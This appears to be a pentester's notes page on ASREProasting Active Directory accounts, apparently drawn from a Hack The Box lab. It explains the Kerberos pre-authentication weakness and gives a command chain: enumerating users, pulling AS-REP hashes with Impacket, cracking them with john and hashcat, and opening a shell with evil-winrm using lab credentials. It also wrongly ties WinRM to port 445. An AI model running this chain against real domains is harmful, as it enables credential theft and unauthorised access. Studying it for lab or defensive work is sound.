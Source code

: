 # ASREProast

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to **ASREProast**).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.



***

## Practical

{% hint style="info" %}
While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

### Recon

```
nmap -T4 -A -v <Host>
```



### User Enumeration

#### LDAP

```
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```



#### RPCClient

```
rpcclient -U "" -N <host>
rpcclient $> enumdomusers
```



### Retrieve Users TGTs

#### Impacket

{% hint style="info" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.
{% endhint %}

```
GetNPUsers.py -request -format hashcat -outputfile ~/Desktop/ASREProastables.txt -dc-ip <host> 'Domain/username:password'
```



### Crack Hash

#### John

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ~/Desktop/user-hash.txt
```

#### Hashcat

```
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```



### Get Shell Access

{% hint style="info" %}
And we have our user and pass, Doubling back to our nmap scan we also see that we have port `445/tcp` allowing us to use WinRm. A great tool to establish a shell with WinRm is [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm) and that is what we'll be using
{% endhint %}

#### Evil-Winrm

```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

#### Evil-Winrm (Docker) - Recommended

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <host> -u <username> -p '<password>'
```





***

## REFERENCES

* [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
* [https://bkr3257.gitbook.io/hackynotes/htb-writeups/forest](https://bkr3257.gitbook.io/hackynotes/htb-writeups/forest)
* [https://www.thehacker.recipes/a-d/movement/kerberos/asreproast](https://www.thehacker.recipes/a-d/movement/kerberos/asreproast)
* [https://forum.hackthebox.com/t/evil-winrm-error-on-connection-to-host/257342/17](https://forum.hackthebox.com/t/evil-winrm-error-on-connection-to-host/257342/17)

